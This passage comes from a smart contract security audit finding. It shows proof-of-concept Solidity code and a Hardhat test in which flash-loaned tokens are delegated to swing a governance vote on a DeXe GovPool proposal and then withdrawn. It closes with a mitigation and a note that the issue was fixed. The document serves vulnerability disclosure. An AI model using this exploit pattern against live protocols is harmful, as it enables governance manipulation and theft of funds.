 ```solidity
        require(
            govPool.getProposalState(proposalId) == IGovPool.ProposalState.Locked,
            "AttackContract: proposal should still be in Locked state after withdrawing tokens"
        );

        // attack contract can now repay flash loan
    }
}

contract FlashDelegationVoteAttackSlave {
    function vote(IGovPool govPool, uint256 proposalId) external {
        // slave has no voting power so votes 0, this will automatically
        // use the delegated voting power
        govPool.vote(proposalId, true, 0, new uint256[](0));
    }
}
```

Add the unit test to `GovPool.test.js` under `describe("getProposalState()", () => {`:
```javascript
      it("audit attacker combine flash loan with delegation to decide vote then immediately withdraw loaned tokens by undelegating", async () => {
        await changeInternalSettings(false);

        // setup the proposal
        let proposalId = 2;
        await govPool.createProposal(
          "example.com",
          [[govPool.address, 0, getBytesGovVote(proposalId, wei("100"), [], true)]],
          [[govPool.address, 0, getBytesGovVote(proposalId, wei("100"), [], false)]]
        );

        assert.equal(await govPool.getProposalState(proposalId), ProposalState.Voting);

        // setup the attack contract
        const AttackContractMock = artifacts.require("FlashDelegationVoteAttack");
        let attackContract = await AttackContractMock.new();

        // give SECOND's tokens to the attack contract
        let voteAmt = wei("100000000000000000000");
        await govPool.withdraw(attackContract.address, voteAmt, [], { from: SECOND });

        // execute the attack
        await attackContract.attack(govPool.address, token.address, proposalId);
      });
```

Run the test with: `npx hardhat test --grep "audit attacker combine flash loan with delegation"`.

**Recommended Mitigation:** Consider additional defensive measures such as not allowing delegation/undelegation & deposit/withdrawal in the same block.

**Dexe:**
Fixed in [PR166](https://github.com/dexe-network/DeXe-Protocol/commit/30b56c87c6c4902ec5a4c470d8a2812cd43dc53c).
